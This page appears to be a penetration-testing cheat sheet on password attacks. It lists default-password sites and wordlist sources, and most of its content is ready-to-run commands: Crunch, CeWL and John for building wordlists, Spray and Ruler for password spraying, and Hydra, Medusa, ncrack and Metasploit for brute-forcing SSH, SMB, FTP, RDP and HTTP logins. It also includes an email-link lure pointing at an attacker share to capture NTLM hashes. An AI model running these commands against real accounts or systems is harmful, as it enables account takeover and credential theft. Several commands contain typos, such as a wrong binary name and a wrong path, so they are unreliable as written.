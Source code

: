 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 3
---
```


> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)


> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}


> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl -m 6 http://www.linkedinprofile.com -w wordlistUniq.lst </code>
John | <code> john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist </code>

> **Password Spraying**

Spiderlabs Spray (e.g., SMB, OWA, Lync) | <code>spray.sh -owa [targetIP] [usernameList] [passwordList] [attemptsPerLockoutPeriod] [LockoutPeriodInMinutes] [Domain]</code>
Ruler (MAPI/HTTP or RPC/HTTP) | <code> rule --domain [domain] brute --users ./users.txt --passwords ./passwords.txt </code>

> **Password Guessing**

Hydra - smb | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>
Hydra - snmp | <code> hydra -P password-file.txt -v 10.11.1.219 snmp </code>
Hydra - ssh | <code> hydra -l root -P password-file.txt 10.11.1.219 ssh </code>
Hydra - ftp | <code> hydra -l admin -P password-file.txt -v 192.168.1.2 ftp </code>
Medusa - HTTP | <code>medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 m DIR:/admin -T 3 </code>
ncrack - rdp | <code>ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35</code>
MSF - ftp | <code>use auxiliary/scanner/ftp/ftp_login</code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials







